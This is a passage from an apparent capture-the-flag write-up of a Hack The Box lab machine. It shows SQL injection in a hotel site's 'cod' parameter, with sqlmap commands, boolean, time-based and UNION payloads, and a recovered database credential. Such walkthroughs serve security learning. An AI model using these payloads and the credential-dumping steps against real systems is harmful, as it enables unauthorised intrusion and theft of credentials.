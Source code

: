 ### 2. Getting User

On the port 80, there is a website which we can researve a room of a hotel.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-11-10/2019-11-09-19-40-46.png)

In the path "/room.php", we have a parameter for GET request which is "cod".
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-11-10/2019-11-09-19-41-30.png)

By putting a single quote, we can confirm that there is no picture.<br>
This means that the parameter "cod" is not handled appropriately.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-11-10/2019-11-09-19-41-57.png)

Then, we can try to check if there is really a SQL injection.<br>
We can use SQLmap and figure out that the parameter "cod" is actually vulnerable.
{% highlight shell %}
root@kali:~# sqlmap -u http://10.10.10.143/room.php?cod=1
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.3.10#stable}
|_ -| . [,]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

~~~

GET parameter 'cod' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 72 HTTP(s) requests:
---
Parameter: cod (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cod=1 AND 3862=3862

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: cod=1 AND (SELECT 6380 FROM (SELECT(SLEEP(5)))sIAL)

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: cod=-3382 UNION ALL SELECT NULL,CONCAT(0x7176767871,0x724a4941577351594f52566f7673496e674b42744c4354476f78444c555252715565706d504c6474,0x7178717171),NULL,NULL,NULL,NULL,NULL-- AKaz
---
[19:45:48] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9.0 (stretch)
web application technology: PHP, Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12
[19:45:48] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.143'

[*] ending @ 19:45:48 /2019-11-09/
{% endhighlight %}

Next, we use SQLmap with an option "--password".<br>
We can ahieve following credential.
{% highlight shell %}
DBadmin:imissyou
{% endhighlight %}
{% highlight shell %}
root@kali:~# sqlmap -u http://10.10.10.143/room.php?cod=1 --passwords
~~~